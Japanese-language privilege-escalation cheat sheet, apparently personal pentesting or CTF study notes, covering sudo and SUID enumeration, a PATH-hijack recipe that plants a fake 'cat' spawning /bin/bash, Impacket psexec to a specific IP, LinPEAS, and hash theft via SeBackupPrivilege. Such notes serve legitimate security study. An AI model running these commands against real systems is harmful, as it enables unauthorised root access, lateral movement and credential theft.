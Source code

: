 # 権限昇格

## 特権ユーザで実行できるコマンドの表示
```
sudo -l
```

* 特権ユーザーで実行できるプログラムと禁止されているプログラムを確認することができる

```
$ sudo -l
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```
* 上記の例であれば/usr/bin/sshを利用できる
* 権限昇格については下記サイトにそれぞれのテクニックが記載されている

https://gtfobins.github.io/

## SUID(Set User ID)
Linuxの特殊なパーミッション属性の一つ。誰がそのファイルを実行しても、セットされたユーザで実行されるという状態。SUIDでrootユーザを指定してある場合、そのファイルから権限昇格できる可能性がある。

以下のコマンドでSUIDビットが設定されているすべてのファイルを見つけることができる。
```
$find / -user root -perm -4000 -exec ls -ldb {} \;
```

また、ls -laで特定のファイルのパーミッションを確認し、「s」があるときはSUIDが設定されている。
```
$ ls -l /usr/bin/passwd
-rwsr-xr-x 1 root root 118168 Jul  7 22:30 /usr/bin/passwd  
```

参考：https://tryhackme.com/r/resources/blog/linux-privilege-escalation-suid

### strace
straceコマンドは、トレース対象のプログラムが発行するシステムコールと受信したシグナルを出力するコマンド。SUIDビットが設定されている実行ファイルについて調査すると良い

```
strace [プログラム] 2>&1 | grep exec
```
出力が多いためgrepを併用すると良い。「exec」や「open」等で検索をかける


## Pathの変更
rootで動いているアプリケーションが特定のコマンドを実行している場合、環境変数PATHを書き換えることで実行する内容を変えることができる

```
rootで動いているアプリケーションがcatを実行している場合の例
$ cd /tmp
$ touch cat
$ chmod +x cat
$ echo "/bin/bash" > cat
$ export PATH="/tmp:$PATH"
```

## DACLの確認
各々のファイルなどに対して、登録ユーザーやユーザーのグループに対するアクセスの許可や拒否、行使可能な権限（読み取り、書き込みなど）を列挙したリストをACL(Access Control List)という。
DACL（Discretionary Access Control List）はWindowsで使用されているACLの一つである。

```
PS C:\>icacls [ファイル名]
```
参考：https://learn.microsoft.com/ja-jp/windows-server/administration/windows-commands/icacls


## Impacket
[Impacket](https://github.com/fortra/impacket)はネットワークプロトコルを操作するためのPythonクラスのコレクションと説明されているものの、Windowsシステムへの侵入やデータ送出に役立つツールが多く含まれている

Kali Linuxでは/usr/share/doc/python3-impacket/examplesにある。

参考：https://tools.thehacker.recipes/impacket

### PsExec
SMB経由で被害者マシンとの間にシェルを貼る
```
python psexec.py Administrator@10.129.59.97
```
参考：https://book.hacktricks.xyz/v/jp/windows-hardening/lateral-movement/psexec-and-winexec

### mssqlclient

参考：https://book.hacktricks.xyz/v/rs/network-services-pentesting/pentesting-mssql-microsoft-sql-server

## PEAS-ng
ローカル権限昇格ベクトルを探すツール
参考: https://github.com/peass-ng/PEASS-ng

### LinPEAS
Linuxの権限昇格の手がかりを探すシェルスクリプト
https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

## Windowsユーザの権限確認
以下のコマンドで現在の権限を確認できる
```
whoami /priv
```
SeBackupPrivilege権限を持つ場合はレジストリからNTLMハッシュを取得できる可能性がある


## LXD/LXCの権限昇格
lxdまたはlxcグループに属している場合は、rootになることができる。

参考：https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

